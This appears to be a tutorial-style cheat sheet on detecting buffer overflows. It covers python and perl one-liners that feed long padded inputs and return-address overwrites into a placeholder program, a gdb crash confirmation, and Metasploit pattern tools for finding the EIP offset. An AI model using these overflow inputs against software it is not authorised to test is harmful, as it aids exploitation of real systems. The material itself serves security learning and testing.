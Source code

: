 
#### Is there a Buffer Overflow

First we need an input to test for overflow. It can be any other kind of input (user input, command line arguments, network commands, environment variables...). 

We can perform basic tests where we try different input, increasing the size to see if the program crashes:
`python -c "print('A' * 64)" | ./<program>`
`python -c "print('A' * 100)" | ./<program>`
`python -c "print('A' * 64 + '\x64\x63\x62\x61')" | ./<program>`
`echo -ne "12345678901234\x67\x05\x40\x0\x0\x0\x0\x0" | ./<program>`
`perl -e 'print "A"x64 . "\x24\x84\x04\x08"' | ./<program>`

``./<program> `python -c "print('A' * 64 + '\x64\x63\x62\x61')"` ``
`./<program> $(python -c "print('A' * 64 + '\x64\x63\x62\x61')")`
`./<program> 'echo -ne "12345678901234\x67\x05\x40\x0\x0\x0\x0\x0"'`

Look for open ports when the program is running and try sending data.
`netstat -a`

Confirm buffer overflow:
```sh
gdb -q bow32
run $(python -c "print('\x55' * 1200"))
Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
```


##### GUI programs

**Field**            **Example**
`Text Input Fields`  - Program's "license registration" field.
				- Various text fields found in the program's preferences.
`Opened Files`       Any file that the program can open.
`Program Arguments`  Various arguments accepted by the program during runtime.              
`Remote Resources`   Any files or resources loaded by the program on run time or on a certain condition
...

##### Test input file creation

Create a file with 10000 As:
`python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"`

Create a non random file for finding the pos to overwrite:
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000`
`python -c "print('the random string', file=open('fuzz.wav', 'w'))"`

`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x31684630` where 0x31684630 is the contents of eip at the buffer overflow crash

